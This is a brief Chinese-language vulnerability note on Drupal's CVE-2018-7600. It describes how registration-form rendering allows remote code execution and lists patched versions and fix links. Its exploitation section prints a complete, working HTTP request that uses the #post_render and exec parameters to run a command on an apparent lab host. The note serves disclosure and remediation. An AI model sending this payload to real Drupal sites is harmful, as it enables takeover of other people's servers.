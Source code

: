 ### 一 漏洞描述
Drupal是使用PHP语言编写的开源内容管理框架（CMF），它由内容管理系统（CMS）和PHP开发框架（Framework）共同构成

该漏洞的产生的根本原因在于Drupal对表单的渲染上，注册回到表单时会根据用户提交的数据构建表单，攻击者可以利用该漏洞攻击Drupal系统的网站，执行恶意代码，最后完全控制被攻击的网站

### 二 漏洞利用
```
POST /user/register?element_parents=account/mail/%23value&ajax_form=1&_wrapper_format=drupal_ajax HTTP/1.1
Host: 118.193.36.37:19617
Accept-Encoding: gzip, deflate
Accept: */*
Accept-Language: en
User-Agent: Mozilla/5.0 (compatible; MSIE 9.0; Windows NT 6.1; Win64; x64; Trident/5.0)
Connection: close
Content-Type: application/x-www-form-urlencoded
Content-Length: 103

form_id=user_register_form&_drupal_ajax=1&mail[#post_render][]=exec&mail[#type]=markup&mail[#markup]=id
```

### 三 漏洞修复
官方已经修复此漏洞，请及时更新Drupal版本或参考补丁自行修复：
Drupal 7.x 请更新至7.58版本(https://www.drupal.org/project/drupal/releases/7.58) 或参考此补丁进行修复 (https://cgit.drupalcode.org/drupal/rawdiff/?h=7.x&id=2266d2a83db50e2f97682d9a0fb8a18e2722cba5)
Drupal 8.3.x 请更新至8.3.9版本(https://www.drupal.org/project/drupal/releases/8.3.9) 或参考此补丁进行修复(https://cgit.drupalcode.org/drupal/rawdiff/?h=8.5.x&id=5ac8738fa69df34a0635f0907d661b509ff9a28f)
Drupal 8.4.x 请更新至8.4.6版本(https://www.drupal.org/project/drupal/releases/8.4.6) 或参考此补丁进行修复(https://cgit.drupalcode.org/drupal/rawdiff/?h=8.5.x&id=5ac8738fa69df34a0635f0907d661b509ff9a28f)
Drupal 8.5.x 请更新至8.5.1版本(https://www.drupal.org/project/drupal/releases/8.5.1) 或参考此补丁进行修复(https://cgit.drupalcode.org/drupal/rawdiff/?h=8.5.x&id=5ac8738fa69df34a0635f0907d661b509ff9a28f)

> 参考链接
> 没见过这么离谱的修复方式: https://blog.csdn.net/YouthBelief/article/details/121146464
> 分析文章: http://blog.nsfocus.net/cve-2018-7600-analysis/

